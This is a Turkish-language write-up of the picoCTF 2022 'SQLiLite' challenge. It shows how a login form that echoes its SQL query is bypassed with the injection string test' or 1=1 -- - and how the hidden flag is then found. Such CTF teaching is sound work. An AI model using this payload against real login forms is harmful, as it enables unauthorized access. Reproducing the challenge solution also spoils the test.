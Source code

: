 ```yaml
---
title: 'picoCTF 2022 | SQLiLite WriteUp'
author: 'appdone'
categories: [picoCTF 2022 Challenges]
tags: [sql injection, login bypass]
render_with_liquid: false
---
```


Web uygulamasını açtığımızda bir giriş sayfası ile karşılaşıyoruz. Rastgele bilgiler girdikten sonra ise aşağıdaki yazıların bulunduğu bir sayfa ile karşılaşıyoruz.

```
username: appdone
password: appdone
SQL query: SELECT * FROM users WHERE name='appdone' AND password='appdone'
Login failed.
```

Girdiğimiz kullanıcı bilgileri ile beraber SQL sorgusu da veriliyor. Sorguda "user" tablosunda girdiğimiz kullanıcı adı ve parolası ile eşleşen bir kolon olup olmadığını kontrol ediyor. Bu durumda kullanıcı adı alanına "test' or 1=1 -- -" kodunu girdiğimde başarıyla giriş yapmış olacağım.

```
<pre>username: test&#039; or 1=1 -- -
password: appdone
SQL query: SELECT * FROM users WHERE name=&#039;test&#039; or 1=1 -- -&#039; AND password=&#039;appdone&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{***}</p>
```
